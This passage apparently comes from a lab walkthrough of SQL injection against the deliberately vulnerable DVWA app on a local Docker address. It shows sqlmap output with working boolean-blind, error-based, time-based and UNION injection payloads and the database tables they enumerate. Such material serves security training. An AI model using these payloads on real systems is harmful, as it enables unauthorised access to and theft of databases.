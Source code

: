 ```txt
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' AND (SELECT 1382 FROM (SELECT(SLEEP(5)))dEuN)-- TVzy&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' UNION ALL SELECT CONCAT(0x7176707671,0x7853497561634f616d655a55687979796c716d616274684c417058576a5664656a6d45426557686e,0x717a7a6a71),NULL#&Submit=Submit
---
[13:45:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:45:26] [INFO] fetching tables for database: 'dvwa'
[13:45:26] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
We can list the columns of a specific table by means of `-D dvwa -T users --columns`
```txt
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:46:37 /2023-12-01/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[13:46:37] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:46:37] [INFO] resuming back-end DBMS 'mysql' 
[13:46:37] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR NOT 4697=4697#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR (SELECT 1636 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(1636=1636,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ytEF&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' AND (SELECT 1382 FROM (SELECT(SLEEP(5)))dEuN)-- TVzy&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
```